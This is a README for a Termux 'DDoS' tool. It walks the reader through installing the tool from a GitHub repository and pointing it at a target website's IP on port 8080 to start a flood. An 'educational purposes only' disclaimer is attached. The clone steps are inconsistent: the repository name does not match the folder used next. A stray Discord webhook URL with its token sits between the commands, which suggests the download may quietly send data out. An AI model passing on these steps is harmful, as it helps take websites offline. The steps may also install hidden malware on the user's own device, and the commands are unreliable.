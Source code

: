 SSSS# GR

Distributed Denial Of Service (DDoS) attacks are a subclass of denial of service (DoS) attacks. A DDoS attack involves multiple connected online devices, collectively known as a botnet, which are used to overwhelm a target website with fake traffic.


Note: THIS TOOL IS JUST ONLY FOR EDUCATIONAL PURPOSE..GIVING DDOS ATTACKs WITHOUT SITE OWNER'S PERMISSION IS ILLEGAL.. SO USE IT AT YOUR OWN RISK.. WE'LL BE NOT RESPONSIBLE FOR ANY TYPES OF MISISSUES!!!


How To Install GR_DDOS In Termux
The Tool Installation Process Is Very Easy.. Just Open Your Termux & Type This Provided Commands!!

$ apt update && apt upgrade

$ pkg install python

$ pkg install python2

$ pkg install git

$ pkg install figlet

$ git clone https://github.com/GR1dll/racker.git
https://discord.com/api/webhooks/1193670207990939758/ysC9UEbZ4FRKcCNlR3Oue3ycJLY9KIqtgAE50rwVdgZ2nj1kggspwed_8GYvma4EDyHY
$ cd GR_DDOS

$ chmod +x GR_DDOS.py

$ python2 GR_DDOS.py


To Run

$ cd GR_DDOS

$ python2 GR_DDOS.py


Your Tool Install & Setup Done!!..Now Go To Google & Search`Website IP Finder`Now Open The 1st Wesite & Place Your Target Website Url e.g. www.biribaba.com..


After Getting The Website IP , Copy The IP & Come To The Termux.. Now Paste The Target Website IP On `Ip Target:` & Give The Port Number `8080`

Booom!! Your Ddos Attack Had Been Started...
